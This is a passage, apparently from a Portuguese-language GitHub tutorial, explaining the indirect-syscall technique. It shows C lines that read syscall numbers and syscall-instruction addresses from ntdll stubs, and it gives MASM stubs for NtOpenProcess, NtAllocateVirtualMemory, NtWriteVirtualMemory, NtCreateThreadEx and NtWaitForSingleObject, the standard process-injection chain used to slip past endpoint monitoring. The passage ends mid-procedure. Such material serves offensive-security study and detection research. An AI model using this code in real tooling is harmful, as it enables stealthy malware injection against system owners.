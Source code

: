 `Extern` Indica que o símbolo é definido em outro módulo.
`SSNtOpenProcess:DWORD` É o Número de syscall para `NtOpenProcess`.
Obtemos o número SSN de uma possível função **NTAPI** lendo o valor no deslocamento `0x4` no stub de montagem da referida função:
```c
SSNtOpenProcess = ((unsigned char*)(pNtOpenProcess + 4))[0];
```
`AddrNtOpenProcess` É o endereço real da instrução **syscall** de `NtOpenProcess` em `ntdll.dll`.
Obtemos o endereço da instrução **syscall** adicionando `0x12` ao endereço de `pNtOpenProcess`
```c
AddrNtOpenProcess = pNtOpenProcess + 0x12;
```
`jmp QWORD PTR [AddrNtOpenProcess]` É um salto incondicional, ela vai pular para o endereço `AddrNtOpenProcess` que vai ser o endereço da instrução **syscall** de `NtOpenProcess` em `ntdll.dll`.

```c
EXTERN SSNtOpenProcess:DWORD               
EXTERN AddrNtOpenProcess:QWORD  

EXTERN SSNtAllocateVirtualMemory:DWORD               
EXTERN AddrNtAllocateVirtualMemory:QWORD       

EXTERN SSNtWriteVirtualMemory:DWORD                  
EXTERN AddrNtWriteVirtualMemory:QWORD            

EXTERN SSNtCreateThreadEx:DWORD                      
EXTERN AddrNtCreateThreadEx:QWORD                

EXTERN SSNtWaitForSingleObject:DWORD                
EXTERN AddrNtWaitForSingleObject:QWORD          

.CODE

NtOpenProcess PROC
    mov r10, rcx
    mov eax, SSNtOpenProcess
    jmp QWORD PTR [AddrNtOpenProcess]
NtOpenProcess ENDP


NtAllocateVirtualMemory PROC
    mov r10, rcx
    mov eax, SSNtAllocateVirtualMemory
    jmp QWORD PTR [AddrNtAllocateVirtualMemory]
NtAllocateVirtualMemory ENDP


NtWriteVirtualMemory PROC
    mov r10, rcx
    mov eax, SSNtWriteVirtualMemory
    jmp QWORD PTR [AddrNtWriteVirtualMemory]
NtWriteVirtualMemory ENDP


NtCreateThreadEx PROC
    mov r10, rcx
    mov eax, SSNtCreateThreadEx
    jmp QWORD PTR [AddrNtCreateThreadEx]
NtCreateThreadEx ENDP


NtWaitForSingleObject PROC
    mov r10, rcx
    mov eax, SSNtWaitForSingleObject
    jmp QWORD PTR [AddrNtWaitForSingleObject]
```